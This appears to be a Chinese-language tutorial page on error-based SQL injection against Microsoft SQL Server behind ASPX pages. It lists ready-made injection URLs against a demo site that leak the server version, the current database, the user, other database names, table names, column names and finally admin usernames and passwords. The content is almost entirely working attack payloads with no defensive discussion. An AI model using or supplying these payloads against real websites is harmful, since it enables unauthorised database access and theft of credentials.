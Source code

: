 sqlserver在语句执行错误的时候会报错并且会在网页上显示出来。

环境 sql2008+aspx

## 1、显示系统信息

and @@version>0 利用mssql在转换类型的时候就出错时 会显示系统信息。

```http
http://www.demo1.com/index.aspx?id=1 and @@version>0
```

![image-20210406224954878](../../acess/image-20210406224954878.png) 

## 2、爆出数据库

```http
http://www.demo1.com/index.aspx?id=-1 and db_name()>0
```

## 3、爆出当前用户

```http
http://www.demo1.com/index.aspx?id=-1 and User_Name()>0
```

## 4、**爆出其他数据库**

```http
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases)>0
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0
#爆出其他库(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master','iNethinkCMS','model','msdb'))>0
```

## 5、爆表

```http
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from [mydb].sys.all_objects where type='U' AND is_ms_shipped=0)>0
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from mydb.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('admin'))>0
#爆出其他表(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from mydb.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('admin','cmd','test_tmp','art'))>0
```

## 6、爆出列

```http
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID'))>0
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID','username'))>0
#爆出其他列(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID','username','password','email'))>0
```

## 7、爆出数据

```http
http://www.demo1.com/index.aspx?id=1 and (select top 1 password from admin)>0
http://www.demo1.com/index.aspx?id=1 and (select top 1 username from admin)>0
```

 